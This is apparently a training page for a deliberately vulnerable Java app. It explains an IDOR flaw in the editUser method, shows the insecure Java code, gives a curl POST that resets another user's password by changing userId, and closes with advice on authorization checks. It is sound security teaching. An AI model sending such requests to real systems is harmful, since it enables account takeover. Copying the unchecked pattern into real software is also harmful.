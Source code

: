 # Insecure Direct Object Reference

An Insecure Direct Object Reference \(IDOR\) vulnerability exists in _EditUser_ functionality. Particularly in _UserAction.java_, the _editUser_ method fails to validate _userId_ parameter to ensure that the calling user has appropriate access to the object. This issue can be exploited to reset information for any user identified by userId.

```java
user = userService.find(getUserId());
user.setPassword(getPassword());
user.setId(getUserId());
userService.save(user);
```

An example HTTP request such as below can be used to exploit this issue:

```bash
$ curl 'http://dvja:8080/editUser.action' \
-XPOST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Upgrade-Insecure-Requests: 1' \
-H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
--data 'userId=16&email=user@email.com&password=password&passwordConfirmation=password'
```

## Solution

Any request that results in access to any system object must be duly validated and authorized before granting access. In case of identifier based object access, consider user supplied identifiers as untrusted. Appropriate scoped query must be used in order to prevent IDOR vulnerabilities.

